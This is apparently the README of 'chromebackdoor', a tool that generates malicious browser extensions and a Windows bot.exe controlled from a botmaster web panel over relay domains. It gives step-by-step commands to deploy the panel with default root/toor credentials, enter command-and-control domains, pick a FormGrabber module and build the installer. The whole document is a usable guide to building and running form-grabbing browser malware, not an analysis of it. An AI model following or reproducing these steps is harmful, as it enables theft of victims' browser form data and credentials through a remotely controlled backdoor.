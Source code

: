 #INSTALL WEB

1) unzip file generated by chromebackdoor

```sh
unzip folder.zip
```

2) Upload a folder web & relais on hosting

3) create database & user and update config file
```sh
/web/includes/config.php
```

4) Upload .SQL on database

```sh
/SQL/chromebackdoor.sql
```

5) Login on webpanel (web/index.php)
```python
username = root
password = toor
```

#GENERATE BOT (without .EXE)

install all dependency & start chromebackdoor.py

```sh
python chromebackdoor.py
```

You can generate backdoor for all most popular browser

exemple for Google Chrome:

```sh
python chromebackdoor.py --chrome
```

Now enter a botmaster domain name (need SSL):

```bash
[?] Website hosted (https://localhost/)? https://lynxframework.com/
```
Same for relais (need SSL):
```sh
[?] Website relais url (https://localhost/relais)? https://lynxrelay.com/relais
or use same domain
[?] Website relais url (https://localhost/relais)? https://lynxframework.com/relais
```
```sh
[?] Information correct [Y/n]? Y
```

Select one module (exemple FormGrabber V1.0)
```sh
[?] please select numbers ? 2
```

The script  generate zip file with .crx .perm and backdoor folder for update icon / name / desc

#BUILD .EXE

1) run chrommebackdoor with --build
```sh
python chromebackdoor.py --build
```
2) select browser backdoor (exemple --chrome)
```sh
[?] crx fime (/root/..) ? /root/backdoor.crx
```
3) wine start installer.exe and generate bot.exe

```sh
Generate successful : {chromebackdoor_folder}/bot.exe
```

4) Start bot.exe with windows
